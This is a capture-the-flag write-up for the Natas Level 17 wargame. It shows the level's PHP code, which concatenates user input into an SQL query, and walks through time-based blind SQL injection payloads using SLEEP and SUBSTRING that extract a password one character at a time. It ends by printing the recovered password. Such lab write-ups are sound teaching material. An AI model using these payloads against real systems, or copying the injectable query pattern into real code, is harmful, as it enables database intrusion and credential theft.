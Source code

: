 # Natas Level 17
This level deals with time based SQL Injection.

## Quest
We are greeted with a simple webpage
![](./images/Level17.png)

Below is the backend code 
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);      // We get no output whatsoever
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

<br/><br/>
## Solution
Reading the code, we can say that we are not presented with any output whatever maybe our input.
> So, for now only one thing comes to my mind - <span id=green>Time Based SQL Injection.</span>


Our Payload -> `username=natas18" AND SLEEP(10);#`<br/>
We recieve a delayed response if username `natas18` exists, our response comes after 10 seconds
![](./images/Level17_solution.png)
<br/><br/>
Now we build a little complex query:<br/>
  Our Payload -> `username=natas18" AND IF(ASCII('a')=97, SLEEP(10),0);#`
  
If username `natas18` exists and ascii code of 'a' is 97, return a delayed response. (We get delayed response)
![](./images/Level17.1_solution.png)
<br/><br/>
So, our Final payload to smuggle passwords is as follow:<br/>
    `username=natas18" AND IF(ASCII(SUBSTRING(password,1,1))=97,SLEEP(10),0);#`
    
![](./images/Level17.2_solution.png)
Above, we found that first character of our password has ascii code 120, i.e. `x`. (using Burp intruder)<br/>
Also note that we filter on "_Response recieved_" column, it conveys the time interval b/w request and response.

Burp intruder settings are exactly same as we did in [Level 15](./Level15.md)

Repeat this 32 times, and we have our password. -> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
